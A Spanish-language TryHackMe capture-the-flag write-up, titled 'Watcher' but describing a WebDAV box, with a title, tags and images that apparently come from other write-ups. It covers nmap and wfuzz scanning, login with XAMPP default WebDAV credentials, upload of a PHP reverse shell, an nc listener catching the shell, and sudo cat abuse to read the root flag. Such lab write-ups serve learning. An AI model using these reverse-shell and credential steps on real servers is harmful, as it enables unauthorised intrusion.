 ```yaml
---
layout: single
title: Watcherv 1.4
excerpt: "Work your way through the machine and try to find all the flags you can!"
date: 2022-05-27
classes: wide
header:
  teaser: /assets/images/thm-writeup-watcher/watcher_logo.png
  teaser_home_page: true
  icon: /assets/images/thm_ico.png
categories:
  - TryHackMe
  - infosec
tags:
  - Security
  - Linux
  - nmap
  - couchdb
  - Web
  - Privilege escalation
---
```


![nmap](/assets/images/thm-writeup-watcher/watcher_logo.png)

[Link](https://tryhackme.com/room/watcher "Watcher")

This is a simple challenge in which you need to exploit a vulnerable web application and root the machine. It is beginner oriented, some basic JavaScript knowledge would be helpful, but not mandatory. Feedback is always appreciated.

---

## 1. Fase de reconocimiento

- Para  conocer a que nos estamos enfrentando lanzamos el siguiente comando:

~~~css
ping -c 1 {ip}
~~~

![ping](/assets/images/thm-writeup-vulnet/vulnet_whatweb.png)

- De acuerdo con el ttl=63 sabemos que nos estamos enfrentando a una máquina con sistema operativo Linux.

---

## 2. Enumeración / Escaneo

- Escaneo de la totalidad de los ***65535*** puertos de red con el siguiente comando:
  
~~~css
└─# nmap -p- -sS --min-rate 5000 --open -vvv -n -Pn {ip}
~~~

![ping](/assets/images/thm-writeup-vulnet/vulnet_nmap1.png)

---

- Escaeno de vulnerabilidades sobre los puertos: 22,111,139,445,873,2049,6379,34583,37021,37295,52355:

~~~css
nmap -sCV -T4 -p22,111,139,445,873,2049,6379,34583,37021,37295,52355 vuln.local --script vuln

└─#  nmap -v -A -sC -sV -Pn {ip} -p- --script vuln
~~~

---

- Revisión de la URL ***http://10.10.25.173:8080/***:

![url](/assets/images/thm-writeup-dav/dav_url.png)

---

## 3. WFUZ

- Escaeno de subdominios con wfuzz:

~~~css
└─# wfuzz --hc=404 -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt {ip}/FUZZ/
Total requests: 220560

=====================================================================
ID           Response   Lines    Word       Chars       Payload                                         
=====================================================================
000037122:   401        14 L     54 W       460 Ch      "webdav"  
~~~

- Wfuzz encontró la misma ruta que el escaneo de vulnerabilidades con nmap ***webdav***.

---

## 4. Exploit

- Buscando contraseñas por defecto me encontré con la siguiente página que entrega una información importante ***<http://xforeveryman.blogspot.com/2012/01/helper-webdav-xampp-173-default.html>***

![url](/assets/images/thm-writeup-dav/dav_web3.png)

---

- Cadaver: utilizamos esta aplicación para ingresar al target, con el usuario y contraseña encontrados en el punto anterior, como se observa a continuación:

~~~css
cadaver http://10.10.39.111/webdav/ 
Autenticación requerida para webdav en el servidor '10.10.39.111':
Nombre de usuario: wampp
Contraseña: 
dav:/webdav/> ls
Listando colección `/webdav/': exitoso.
        passwd.dav                            44  ago 25  2019

~~~

- Cargamos un archivo de prueba:
  
~~~css
dav:/webdav/> put test.txt
Transferiendo test.txt a '/webdav/test.txt':
 Progreso: [                              ]   0,0% of 6 bytes Progreso: [=============================>] 100,0% of 6 bytes exitoso.

~~~

- Comprobamos que el archivo que previamente creamos en la misma carpeta donde ejecutamos ***cadaver***

![url](/assets/images/thm-writeup-dav/dav_exploit_1.png)

- Descargamos  y configuramos una rshell desde la siguiente url: ***<https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php>*** en la misma carpeta donde ejecutamos ***cadaver***

![url](/assets/images/thm-writeup-dav/dav_rshell.png)

- Cargamos la rshell siguiendo el mismo procedimiento:

~~~css
dav:/webdav/> put rshell.php
Transferiendo rshell.php a '/webdav/rshell.php':
 Progreso: [                              ]   0,0% of 5491 bytes Progreso: [=============================>] 100,0% of 5491 bytes exitoso.
~~~

- Nos ponemos en escucha por el puerto ***4444***, de acuerdo con la configuración de la rshell:

~~~css
─# nc -nlvp 4444                                   
listening on [any] 4444 ...
~~~

- Ejecutamos la ***rshell.php***, entrando a la url target y abriendo este archivo:

![rshell](/assets/images/thm-writeup-dav/dav_rshell1.png)

dav_rshell1.png

- Obtenemos nuestra reverse shell como usuario ***www-data***:

~~~css
─# nc -nlvp 4444                                   
listening on [any] 4444 ...
connect to [10.9.0.43] from (UNKNOWN) [10.10.39.111] 34204
Linux ubuntu 4.4.0-159-generic #187-Ubuntu SMP Thu Aug 1 16:28:06 UTC 2019 x86_64 x86_64 x86_64 GNU/Linux
 19:43:11 up 21 min,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ whoami
www-data
~~~

- Tratamiento de la shell, con el siguiente comando:

~~~python
python3 -c 'import pty; pty.spawn("/bin/bash")'
~~~

---

## 5. Bandera de usuario

- Nos dirigimos a la carpeta ***home*** en esta accedmos al usuario ***merlin*** y en está última encontramos el archivo ***user.txt***:

![usr](/assets/images/thm-writeup-dav/dav_usr.png)

---

## 6. Bandera root

- Búsqueda de vulnerabilidades con el comando ***sudo -l***, en el cual observamos el binario ***cat*** :



~~~css
www-data@ubuntu:/usr/lib/openssh$ sudo -l
sudo -l
Matching Defaults entries for www-data on ubuntu:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on ubuntu:
    (ALL) NOPASSWD: /bin/cat

~~~

- Abusando del binario ***cat*** podemos leer la bandera root sin entregar las credenciales respectivas, ubicandonos en el archivo raíz y ejecutando el siguiente comando:

![root](/assets/images/thm-writeup-dav/dav_cat.png)

~~~css
www-data@ubuntu:/bin$ cd ..
cd ..
www-data@ubuntu:/$ ls
ls
bin   etc	  initrd.img.old  lost+found  opt   run   sys  var
boot  home	  lib		  media       proc  sbin  tmp  vmlinuz
dev   initrd.img  lib64		  mnt	      root  srv   usr  vmlinuz.old
www-data@ubuntu:/$ sudo cat /root/root.txt
sudo cat /root/root.txt
??????
~~~

![root](/assets/images/thm-writeup-dav/dav_root.png)

---

## 7. Fuentes

- Exploit
<http://xforeveryman.blogspot.com/2012/01/helper-webdav-xampp-173-default.html>

- Cat
<https://gtfobins.github.io/gtfobins/cat/>
